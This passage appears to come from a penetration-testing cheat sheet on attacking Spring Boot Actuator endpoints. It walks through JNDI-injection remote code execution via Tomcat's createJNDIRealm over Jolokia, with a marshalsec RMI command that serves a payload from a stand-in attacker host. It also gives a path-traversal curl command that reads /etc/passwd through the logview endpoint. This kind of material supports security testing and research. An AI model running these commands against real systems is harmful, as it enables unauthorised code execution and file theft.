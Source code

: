 ## Tomcat::createJNDIRealm

One of the MBeans of Tomcat (embedded into Spring Boot) is `createJNDIRealm`. `createJNDIRealm` allows creating JNDIRealm that is vulnerable to JNDI injection. You can expoit with the next steps:

1. Get the `/jolokia/list` to check if `type=MBeanFactoryand` and `createJNDIRealm` are in place
2. Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)
3. Compile the code and host the compiled class at `http://attacker-website.com/`
4. Set up a RMI service with [marshalsec](https://github.com/mbechler/marshalsec):

    ```bash
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://attacker-website.com:80/#JNDIObject 1389
    ```

5. Send the payload using [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py)

It is possible due to the following chain:

1. Create `JNDIRealm` with `createJNDIRealm`
2. Set the `connectionURL` address to RMI Service URL
3. Set `contextFactory` to `RegistryContextFactory`
4. Stop Realm
5. Start Realm to trigger JNDI injection of specified RMI address, causing RCE

References:
- [Spring Boot Vulnerability Exploit Check List: jolokia-realm-jndi-rce](https://github.com/LandGrey/SpringBootVulExploit#0x05jolokia-realm-jndi-rce)
- [Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)

## Jookia CVEs

- [How I made more than $30K with Jolokia CVEs](https://blog.it-securityguard.com/how-i-made-more-than-30k-with-jolokia-cves/)
- [Jolokia Vulnerabilities - RCE & XSS](https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html)

# logfile

[logfile](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#log-file) returns the contents of the logfile (if `logging.file.name` or `logging.file.path` properties have been set). Supports the use of the HTTP Range header to retrieve part of the log file's content.

# logview

[spring-boot-actuator-logview](https://github.com/lukashinsch/spring-boot-actuator-logview) version before `0.2.13` is vulnerable to path traversal that allows you to retreive arbitrary files.

```bash
# retreaving /etc/passwd
$ curl http://localhost:8887/manage/log/view?filename=/etc/passwd&base=../../../../../
```
